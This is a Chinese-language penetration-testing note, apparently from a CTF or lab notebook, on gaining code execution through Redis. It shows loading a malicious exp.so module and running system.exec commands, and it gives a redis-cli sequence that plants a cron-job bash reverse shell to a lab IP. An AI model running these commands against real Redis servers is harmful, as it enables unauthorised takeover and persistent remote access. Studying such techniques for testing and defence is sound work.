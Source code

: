 ## Redis_RCE

如果发现主机有启动redis服务（此处目前只展示在内网）

![image-20240107222332870](F:\笔记\渗透\Redis攻击.assets\image-20240107222332870-17046374147791.png)



则可以先传exp.so到服务器上

```
Redis 中的 exp.so 文件通常被用作 Redis 提权的一种方式。这个文件是一个 Redis 模块，它可以在 Redis 服务器中执行任意代码。

Redis 模块是一种可插拔的扩展，它允许用户在 Redis 服务器中添加新的功能。exp.so 文件是一个 Redis 模块，它提供了一些命令和功能，可以让攻击者在 Redis 服务器中执行任意代码，从而获得服务器的控制权。

在 Redis 提权攻击中，攻击者通常会利用 Redis 的漏洞或者弱密码，获取 Redis 服务器的访问权限。一旦攻击者获得了访问权限，他们就可以上传 exp.so 文件到 Redis 服务器中，并使用 Redis 的 module load 命令加载这个文件。这个文件会在 Redis 服务器中执行任意代码，从而让攻击者获得服务器的控制权。
```



在使用蚁剑的Redis管理添加配置

![image-20240107222714029](F:\笔记\渗透\Redis攻击.assets\image-20240107222714029.png)



在redis虚拟命令行中执行以下命令加载，执行命令

```
MODULE LOAD /var/www/html/exp.so  //回显OK后

system.exec "ls /"
system.exec "cat /flag"
```

![image-20240107223517415](F:\笔记\渗透\Redis攻击.assets\image-20240107223517415.png)

[redis管理插件（蚁剑）]( https://github.com/Medicean/AS_Redis.git)

[恶意exp](https://github.com/Dliv3/redis-rogue-server.git)

## 定时任务

- Centos的定时任务文件在/var/spool/cron/

- Ubuntu定时任务文件在/var/spool/cron/crontabs/

  使用下列语句写一个反弹shell进定时任务

  ```
  redis-cli -h 192.168.244.128 -p 6379
  set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.244.129/7777 0>&1\n\n"
  config set dir /var/spool/cron/crontabs/
  config set dbfilename root
  save
  ```

过一段时间后，任务会自动执行

**注意**
这个方法只能Centos上使用，Ubuntu上行不通，原因如下：

- 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件/var/spool/cron/crontabs/权限必须是600也就是-rw-------才会执行，否则会报错(root) INSECURE MODE (mode 0600 expected)，而Centos的定时任务文件/var/spool/cron/权限644也能执行
- 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错